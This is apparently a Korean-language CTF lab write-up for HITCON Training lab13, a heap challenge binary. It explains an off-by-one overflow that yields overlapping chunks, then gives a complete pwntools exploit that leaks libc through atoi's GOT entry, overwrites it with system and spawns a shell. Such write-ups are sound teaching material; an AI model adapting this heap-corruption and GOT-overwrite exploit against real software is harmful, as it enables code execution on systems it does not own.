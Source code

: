 ```yaml
---
layout: post
title: "[HITCON Training] lab13"
comments : true
category : War Game
---
```


# 문제
***

heapcreator 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

file 명령어의 결과는 다음과 같다.
```
heapcreator: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=5e69111eca74cba2fb372dfcd3a59f93ca58f858, not stripped
```

바이너리 코드

__create_heap()__
```c
__int64 create_heap()
{
    ...
    for(i=0;i<=9;i++)
    {
        if(!heaparray[i])
        {
            heaparray[i] = malloc(0x10);
            ...
            printf("Size of Heap : ");
            read(0,&buf,8);
            size = atoi(buf);
            v0 = heaparray[i]
            v0[1] = malloc(size);
            ...
            *(_QWORD *)heaparray[i] = size;
            printf("Content of heap:");
            read_input(*((void **)heaparray[i] + 1), size);
            ...
        }
    }
}
```

__edit_heap()__
```c
__int64 edit_heap()
{
    ...
    printf("Index :");
    read(0,&buf,4);
    v1 = atoi(&buf);
    ...
    if(heaparray[i])
    {
        printf("Content of heap : ");
        read_input(*((void **)heaparray[i] + 1), *(_QWORD *)heaparray[i] + 1);
        puts("Done !");
    }
    ...
}
```

__show_heap()__
```c
__int64 show_heap()
{
    ...
    printf("Index :");
    read(0,&buf,4);
    v1 = atoi(&buf);
    ...
    if(heaparray[i])
    {
        printf("size : %ld\nContent : %s\n", *(_QWORD *)heaparray[v1], *((_QWORD *)heaparray[i] + 1));
        puts("Done !");
    }
    ...
}
```

__delete_heap()__
```c
__int64 delete_heap()
{
    ...
    printf("Index :");
    read(0,&buf,4);
    v1 = atoi(&buf);
    ...
    if(heaparray[i])
    {
        free(*((void **)heaparray[i] + 1));
        free(heaparray[i]);
        heaparray[i] = 0;
        puts("Done !");
    }
    ...
}
```

heaparray[i] : 0x20 크기의 chunk 주소 저장
0x20 크기의 chunk : size | malloc(size)로 할당한 chunk 주소 <br/><br/>

__edit_heap()__ 함수에서 1byte overflow가 발생한다. 따라서 할당한 chunk의 크기를 (16바이트 단위의 크기 - 8)로 하면 다음 chunk의 size 영역에 1byte를 덮어쓸 수 있다.

## Overlapping Chunks 취약점
__조건__
- free chunk를 생성할 수 있어야 한다.
- free chunk의 size 영역을 overwrite할 수 있어야 한다.

<br/>

__공격 방법__
- 3개의 chunk 생성 
- 2번째 chunk를 free한다.
- free chunk의 size 영역에 재할당 받을 크기의 값을 덮어쓴다. (2번째 chunk의 크기 + 3번째 chunk의 크기 + prev_inuse(1))
- 2번째 chunk의 크기 + 3번째 chunk의 크기를 malloc을 통해서 할당받으면 2번쨰 chunk의 주소가 리턴된다. 이를 통해서 3번째 chunk에 overwrite할 수 있다.

## exploit 방법
1. __create_heap()__ 함수를 통해서 chunk를 2개 할당한다. (첫 번째 heap의 크기는 (16*X - 8)로 하고 두 번째 heap의 크기는 0x20이 되도록 한다.)
2. __edit_heap()__ 함수를 이용해서 heaparray[1]에 저장되어 있는 chunk의 size를 overwrite 한다. 
3. heaparray[1]의 chunk를 free한다.
4. __create_heap()__ 함수를 통해서 overwrite한 크기의 chunk를 할당한다. 이를 통해서 heaparray[1]에 저장된 chunk의 data 영역을 overwrite할 수 있다.

__주의할 점__ <br/><br/>
만약 0x100 크기의 small chunk (large chunk) 두 개를 할당하고 앞에 있는 small chunk의 size 영역을 0x201로 덮어쓰는 공격이 가능하다고 하자. 그 뒤에 두 chunk를 free하고 mallc(0x1f0)하면 첫 번째 chunk의 주소가 리턴된다. 하지만 그 이후 malloc(0xf0)을 하면 error가 발생한다. unlink 함수에서 chunksize(P) != prev_size (next_chunk(P) 이 조건을 만족시키지 못해서 터지는 것 같다.


 
# 풀이
***
```
#!/usr/bin/python

from pwn import *

def create_heap(size,content):
	p.recvuntil("choice :")
	p.send("1"+"\x00")
	p.recvuntil(" : ")
	p.send(size)
	p.recvuntil("heap:")
	p.send(content)
	p.recvuntil("SuccessFul\n")

def edit_heap(index,content):
	p.recvuntil("choice :")
	p.send("2"+"\x00")
	p.recvuntil(" :")
	p.send(index)
	p.recvuntil("heap : ")
	p.send(content)
	p.recvuntil("!\n")

def show_heap(index):
	p.recvuntil("choice :")
        p.send("3"+"\x00")
        p.recvuntil(" :")
        p.send(index)
	p.recvuntil("Content : ")
	content=p.recvuntil("\n", drop=True)
	p.recvuntil("!\n")
	return content

def delete_heap(index):
	p.recvuntil("choice :")
	p.send("4"+"\x00")
	p.recvuntil(" :")
	p.send(index)
	p.recvuntil("!\n")

file_path="/home/sungyun/round4/lab13/heapcreator"

puts_got=0x602028
atoi_got=0x602060

p=process(file_path)
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")

create_heap("40","ha_weeee^____^")
create_heap("16","ba_weeee^____^")

pay="A"*40
pay+="\x41"

edit_heap("0",pay)

delete_heap("1")

create_heap("48","1_c4n_0verwrite")

pay2="A"*0x20
pay2+="\x30"+"\x00"*7
pay2+=p64(atoi_got)

edit_heap("1",pay2)

atoi_got=show_heap("1")
atoi_got=u64(atoi_got+"\x00"*(8-len(atoi_got)))

libc_base=atoi_got-libc.symbols['atoi']
#one_gad=libc_base+0x4526a
system=libc_base+libc.symbols['system']

edit_heap("1",p64(system))


p.recvuntil("choice :")
p.send("sh\x00")

p.interactive()
```

